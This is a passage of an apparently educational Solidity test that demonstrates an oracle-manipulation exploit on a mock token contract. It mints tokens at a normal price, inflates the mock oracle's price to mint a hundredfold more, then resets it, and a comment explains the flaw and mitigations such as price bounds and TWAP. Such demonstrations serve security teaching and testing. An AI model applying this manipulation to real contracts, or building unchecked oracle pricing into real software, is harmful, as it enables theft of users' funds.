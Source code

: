 ```solidity
        // Ensure this test function has enough funds.
        vm.deal(address(this), 10 ether);
        
        // ----- DEMONSTRATION STEP 1: Normal Oracle Behavior -----
        // Mint tokens normally: sending 1 ETH should mint 1 ETH * 100 tokens = 100 tokens.
        uint256 normalMintEth = 1 ether;
        uint256 expectedNormalTokens = normalMintEth * 100;
        // External call to mint tokens; check for success.
        (bool success1, ) = address(vulnerableToken).call{value: normalMintEth}(abi.encodeWithSignature("mint()"));
        require(success1, "Normal mint failed");
        
        uint256 normalBalance = vulnerableToken.balanceOf(address(this));
        require(normalBalance == expectedNormalTokens, "Normal mint did not yield expected token amount");
        
        // Log the normal balance for educational purposes.
        emit log_named_uint("Token balance after normal mint", normalBalance);
        
        // ----- DEMONSTRATION STEP 2: Oracle Manipulation -----
        // Simulate a flash loan attack that manipulates the oracle's price.
        // Manipulate the oracle to return an excessively high price.
        uint256 manipulatedPrice = 10000; // inflated price, instead of 100 tokens per ETH.
        bool setPriceSuccess = mockOracle.setPrice(manipulatedPrice);
        require(setPriceSuccess, "Failed to update oracle price");
        
        // Now, mint tokens using the manipulated price.
        uint256 manipulatedMintEth = 1 ether;
        uint256 expectedManipulatedTokens = manipulatedMintEth * manipulatedPrice;
        (bool success2, ) = address(vulnerableToken).call{value: manipulatedMintEth}(abi.encodeWithSignature("mint()"));
        require(success2, "Manipulated mint failed");
        
        uint256 manipulatedBalance = vulnerableToken.balanceOf(address(this)) - normalBalance;
        require(manipulatedBalance == expectedManipulatedTokens, "Manipulated mint did not yield expected token amount");
        
        emit log_named_uint("Additional tokens minted after oracle manipulation", manipulatedBalance);
        
        // Reset the oracle back to its original price to demonstrate mitigation.
        bool resetPriceSuccess = mockOracle.setPrice(100);
        require(resetPriceSuccess, "Failed to reset oracle price");
        
        /*
        Vulnerability Explanation:
        The VulnerableToken contract applies the price from an external oracle without any checks.
        This allows an attacker to temporarily inflate the token price (via a flash loan attack, for instance)
        and mint an excessive number of tokens. Developers should mitigate this by introducing minimum output checks,
        imposing upper and lower bounds on acceptable price data, or by employing TWAP mechanisms.
        */
        
        // Educational Log Output: Final balances for review.
        uint256 totalTokensMinted = vulnerableToken.balanceOf(address(this));
        emit log_named_uint("Total tokens minted after exploit demonstration", totalTokensMinted);
    }
}
```

---
